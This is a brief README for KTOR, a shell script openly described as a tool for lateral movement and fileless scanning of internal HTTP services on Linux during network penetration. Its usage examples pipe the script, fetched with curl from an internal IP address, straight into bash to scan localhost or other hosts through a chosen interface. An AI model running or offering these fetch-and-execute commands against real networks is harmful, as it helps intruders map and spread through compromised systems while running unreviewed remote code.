

# KTOR

KTOR is a tool specifically designed for lateral movement in Linux. With this tool, you can quickly scan internal HTTP services for further network penetration, achieving fileless scanning.

## Usage

`$ ./ktor.sh -h`

### Scan localhost

`$ curl http://10.10.16.28/ktor.sh|bash -s -- -l -p all`

### Scan other machines through the interface

`$ curl http://10.10.16.28/ktor.sh|bash -s -- -i eth0 -p 80,8080 -t 100`

